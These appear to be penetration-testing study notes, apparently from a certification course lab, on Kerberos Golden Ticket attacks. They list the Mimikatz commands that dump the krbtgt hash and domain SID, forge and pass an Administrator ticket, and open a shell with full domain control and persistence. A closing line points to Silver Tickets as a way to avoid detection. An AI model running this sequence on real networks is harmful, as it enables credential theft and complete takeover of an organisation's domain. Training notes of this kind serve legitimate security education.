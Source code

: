 #### Golden Ticket Attacks

When we compromise the krbtgt account (kerberos ticket granting ticket), we own the domain  
We can request access to any resource or system on the domain  
Golden Ticket == complete access to every machine  

Utilized within Mimikatz  
&ensp;`mimikatz # privilege::debug`   - This will be run everytime in mimikatz.exe  
&ensp;`mimikatz # lsadump::lsa /inject /name:krbtgt`   This will dump the ntlm hash for the krbtgt account as well as the SID for the domain.  You can keep this in a txt file.  
&ensp;`mimikatz # kerberos::golden /User:Administrator /domain:PNPT.local /sid:<this is the domains SID> /krbtgt:<NTLM hash for krbtgt account> /id:500 /ptt`  
&ensp;&ensp;The user does not have to be a real user.  `/id:500` is the RID.  `/ptt` is pass the ticket.  Once this is run you should get a message stating the ticket was successfully created.  
&ensp;`mimikatz # misc::cmd`    This should open a command line window utilizing the session with the golden ticket we just created.  At this point, you can even download psexec.exe and run it on the device, you have complete control.  You also have persistance since you have a golden ticket.  

  

Also look into "Silver Tickets" since golden tickets are starting to get picked up.  